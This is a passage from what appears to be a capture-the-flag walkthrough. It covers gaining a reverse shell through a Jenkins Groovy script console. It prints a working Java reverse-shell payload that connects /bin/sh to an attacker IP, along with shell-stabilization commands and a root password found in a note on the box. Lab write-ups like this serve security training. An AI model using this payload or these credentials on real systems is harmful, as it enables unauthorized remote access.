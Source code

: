 ![](../images/Pasted%20image%2020250529145112.png)

![](../images/Pasted%20image%2020250529145118.png)

![](../images/Pasted%20image%2020250529145132.png)

As seen, this is being managed by groovy, we can guide ourselves on this medium post:

```
https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6
```

![](../images/Pasted%20image%2020250529145235.png)

```java
String host="OUR_IP";
int port=8044;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


Once we run this on the console, we get a reverse shell:

![](../images/Pasted%20image%2020250529145512.png)

Let's stabilize our shell once again:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

We can use `linpeas` again:

![](../images/Pasted%20image%2020250529145945.png)

Once again, in `/opt` we got a note:

```
jenkins@jenkins:/tmp$ cat /opt/note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you
need access to the root user account.

root:tr0ub13guM!@#123
```
